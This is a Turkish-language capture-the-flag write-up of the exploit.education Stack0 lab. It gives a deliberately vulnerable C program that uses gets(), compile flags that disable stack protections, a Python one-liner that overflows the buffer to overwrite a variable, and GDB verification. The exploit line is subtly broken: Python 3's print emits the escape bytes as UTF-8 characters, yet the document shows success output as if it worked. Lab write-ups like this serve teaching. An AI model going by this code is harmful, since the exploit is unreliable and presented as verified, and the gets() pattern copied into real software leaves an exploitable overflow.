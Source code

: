 # Stack0 Write-up – Buffer Overflow Exploitation

## Challenge Özeti

- **Platform:** Linux (32-bit)
- **Zafiyet Türü:** Stack-based Buffer Overflow
- **Amaç:** `changeme` değişkeninin değerini `0xDEADBEEF` yapmak

## Derleme

```bash
gcc -m32 -fno-stack-protector -z execstack -no-pie stack0.c -o stack0
```

## Kaynak Kod İncelemesi

```c
int main() {
    char buffer[64];
    int changeme = 0;
    gets(buffer);
    if (changeme == 0xDEADBEEF) {
        printf("You have correctly modified the variable\n");
    } else {
        printf("Try again!\n");
    }
    return 0;
}
```

## Exploit Aşamaları

```bash
python3 -c "print('A'*64 + '\xef\xbe\xad\xde')" | ./stack0
```

## Sonuç

```
You have correctly modified the variable
```

## GDB ile Doğrulama

```bash
gdb ./stack0
(gdb) run < <(python3 -c "print('A'*64 + '\xef\xbe\xad\xde')")
(gdb) x/wx &changeme
0xffffd4ac: 0xdeadbeef
```

## Notlar

- Bu senaryo eğitim amaçlıdır.
- Modern sistemlerde bu açıklar stack canary, NX bit ve ASLR gibi korumalarla engellenir.

## Kaynaklar

- https://exploit.education
- https://owasp.org/www-community/vulnerabilities/Buffer_Overflow
- https://github.com/hugsy/gef
